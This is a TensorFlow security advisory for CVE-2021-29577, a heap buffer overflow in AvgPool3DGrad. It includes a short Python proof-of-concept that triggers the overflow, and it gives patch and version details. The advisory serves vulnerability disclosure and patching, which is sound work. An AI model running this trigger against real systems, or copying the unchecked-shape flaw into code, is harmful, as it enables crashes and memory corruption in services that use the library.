 ## TFSA-2021-065: Heap buffer overflow in `AvgPool3DGrad`

### CVE Number
CVE-2021-29577

### Impact
The implementation of `tf.raw_ops.AvgPool3DGrad` is vulnerable to a heap buffer
overflow:

```python
import tensorflow as tf

orig_input_shape = tf.constant([10, 6, 3, 7, 7], shape=[5], dtype=tf.int32)
grad = tf.constant([0.01, 0, 0], shape=[3, 1, 1, 1, 1], dtype=tf.float32)
ksize = [1, 1, 1, 1, 1]
strides = [1, 1, 1, 1, 1]
padding = "SAME"

tf.raw_ops.AvgPool3DGrad(
  orig_input_shape=orig_input_shape, grad=grad, ksize=ksize, strides=strides,
  padding=padding)
```

The
[implementation](https://github.com/tensorflow/tensorflow/blob/d80ffba9702dc19d1fac74fc4b766b3fa1ee976b/tensorflow/core/kernels/pooling_ops_3d.cc#L376-L450)
assumes that the `orig_input_shape` and `grad` tensors have similar first and
last dimensions but does not check that this assumption is validated.

### Patches
We have patched the issue in GitHub commit
[6fc9141f42f6a72180ecd24021c3e6b36165fe0d](https://github.com/tensorflow/tensorflow/commit/6fc9141f42f6a72180ecd24021c3e6b36165fe0d).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Ying Wang and Yakun Zhang of Baidu
X-Team.
